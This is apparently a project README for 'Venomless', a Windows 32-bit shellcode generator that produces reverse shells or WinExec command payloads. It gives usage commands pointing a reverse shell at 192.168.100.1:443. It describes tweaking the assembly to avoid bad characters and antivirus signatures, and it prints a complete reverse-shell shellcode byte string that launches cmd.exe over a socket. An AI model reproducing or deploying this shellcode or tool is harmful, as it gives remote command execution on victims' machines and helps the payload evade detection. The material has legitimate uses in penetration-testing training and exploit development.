 # Summary 

Venomless is a custom 32-bit windows shellcode generator designed to provide either a reverse shell or the execution of a specified command through winexec. The shellcode that is generated can be checked for the presence of bad characters and customized in order to avoid bad characters or signatures. 

The generate.py contains a Position Independent Shellcode stub and several custom functions to make creating any win32 API call much easier. This includes a formatString function to format putting strings onto the stack as well as a loadLibrary function that will load a library, find a function within it and store it within an EBP offset.

Venomless uses the keystone engine and can output shellcode in several formats (python, csharp, c, raw, assembly, keystone).

It can also provide simple payloads in c, python and csharp format as well as shellcode runners in those languages.

## usage

The following will create a python script for generating the shellcode for a reverse shell. The assembly can be customized to avoid bad characters or signatures.

`venomless.py -r -l 192.168.100.1 -p 443 -t`


-r, --revshell                      Generate a reverse shell. Requires -l, --lhost and -p, --port arguments.
-c <command>, --cmd                 Creates a payload that uses the WinExec API call to perform a command. 
-o <filename>, --output             Outputs the shellcode to a text file 
-f, --format <format>
        formats:
        assembly              Outputs the assembly 
        keystone              Outputs a python script that contains the shellcode and will use the keystone engine to test the payload. Useful for editing out bad bytes. 
        python                Outputs the Shellcode in a python byte array. If -t set, then will generate a python script to test payload.
        csharp                Outputs the shellcode in a csharp byte array. If -t set, then will generate a .cs file to compile to test payload. 
        c                Outputs the shellcode in a c byte array. If -t set, then will generate a .c file to compile to test payload.

-b, --badchars      Will search for bad characters in output and highlight them. Will also provide basic disassembly of relevant shellcode.





# Introduction

Venomless is a custom 32-bit windows shellcode generator designed to provide either a reverse shell or the execution of a specified command. This is designed to be the starting point for custom windows payloads that the user can alter in order to avoid bad characters and heuristics. Venomless includes the ability to detect bad characters in the resulting shellcode and to output a keystone script with comments where the bad characters exist so that they can be easily altered. 

The generate.py uses the keystone engine and some custom QoL functions in order to create position-independent shellcode. These QoL functions can easily be used to call other windows APIs. formatString automates putting any string onto the stack, loadLibrary loads a library finds a function inside of it and stores it in a specified EBP offset.

# Installation

I highly recommend using a virtual environment.

requires keystone


# Usage

The following will create a python script for generating the shellcode for a reverse shell using keystone. The assembly can be customized to avoid bad characters or signatures.

`venomless.py -r -l 192.168.100.1 -p 443 -b 0x00,0x28,0xa0 -f keystone`
 
This will output a "kshellcode.py" keystone script by default which contains comments about which instructions are bad.

e.x:

```asm 
"start:"
"mov ebp, esp               ;"
######## Bad Character located at instruction below ############"
### 81 c4 a0 f6 ff ff : add esp, 0xfffff6A0        ;"
"add esp, 0xfffff6A0        ;"
"find_kernel32:"
"xor ecx, ecx               ;"
"mov esi, fs:[ecx+30h]      ;"
"mov esi, [esi+0Ch]         ;"
"mov esi, [esi+1Ch]         ;"
"next_module:"
```

This bad character can be adjusted by simply changing the value that is subtracted from esp. Once the instruction has been changed, the shellcode can be generated with badchars.py. 

```
Encoded 200 instructions
Looking for bad characters in all shellcode (simple test)
No bad characters found!
size = 398
shellcode = b"\x89\xe5\x81\xc4\xa4\xf6\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\xbf\xe0\xff\xff\xff\xf7\xdf\x01\xf7\x8b\x3f\x8b\x36\x66\x39\x4f\x18\x75\xea\xeb\x06\x5e\x89\x75\x04\xeb\x5c\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\xba\xe0\xff\xff\xff\xf7\xda\x01\xfa\x8b\x02\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x08\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x0c\x68\x72\xfe\xb3\x16\xff\x55\x04\x89\x45\x10\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x33\x32\x2e\x64\x68\x77\x73\x32\x5f\x54\xff\x55\x0c\x89\xc3\x68\xcb\xed\xfc\x3b\xff\x55\x04\x89\x45\x14\x68\xd9\x09\xf5\xad\xff\x55\x04\x89\x45\x18\x68\x0c\xba\x2d\xb3\xff\x55\x04\x89\x45\x1c\x31\xc9\x89\xe0\x66\xb9\x90\x05\x29\xc8\x50\x31\xc0\x66\xb8\x02\x02\x50\xff\x55\x14\x31\xc0\x50\x50\x50\xb0\x06\x50\x2c\x05\x50\x40\x50\xff\x55\x18\x89\xc6\x31\xc0\x50\x50\x68\xc0\xa8\x64\x01\x66\xb8\x01\xbb\xc1\xe0\x10\x66\x83\xc0\x02\x50\x54\x5f\x31\xc0\x50\x50\x50\x50\x04\x10\x50\x57\x56\xff\x55\x1c\x56\x56\x56\x31\xc0\x50\x50\xb0\x7f\xfe\xc0\x31\xc9\xb1\x7f\xfe\xc1\x01\xc8\x50\x31\xc0\x50\x50\x50\x50\x50\x50\x50\x50\x50\x50\xb0\x44\x50\x54\x5f\x31\xc0\xb4\x65\xc1\xe0\x08\x66\xb8\x65\x78\x50\x68\x63\x6d\x64\x2e\x54\x5b\x89\xe0\x31\xc9\x66\xb9\x90\x03\x29\xc8\x50\x57\x31\xc0\x50\x50\x50\x40\x50\x48\x50\x50\x53\x50\xff\x55\x10\x31\xc0\x50\x6a\xff\xff\x55\x08"
```

If bad characters are still present, it will only do a simple scan, print the shellcode and exit.



-r, --revshell                      Generate a reverse shell. Requires -l, --lhost and -p, --port arguments.
-c <command>, --cmd                 Creates a payload that uses the WinExec API call to perform a command. 
-o <filename>, --output             Outputs the shellcode to a text file 
-f, --format <format>
        formats:
        assembly              Outputs the assembly
        raw                   Outputs raw shellcode in format "\xXX".
        keystone              Outputs a python script that contains the shellcode and will use the keystone engine to test the payload. Useful for editing out bad bytes. 
        python                Outputs the Shellcode in a python byte array. If -t set, then will generate a python script to test payload.
        csharp                Outputs the shellcode in a csharp byte array. If -t set, then will generate a .cs file to compile to test payload. 
        c                Outputs the shellcode in a c byte array. If -t set, then will generate a .c file to compile to test payload.

-b, --badchars      Will search for bad characters in shellcode and generate a keystone script with all found bad characters commented.


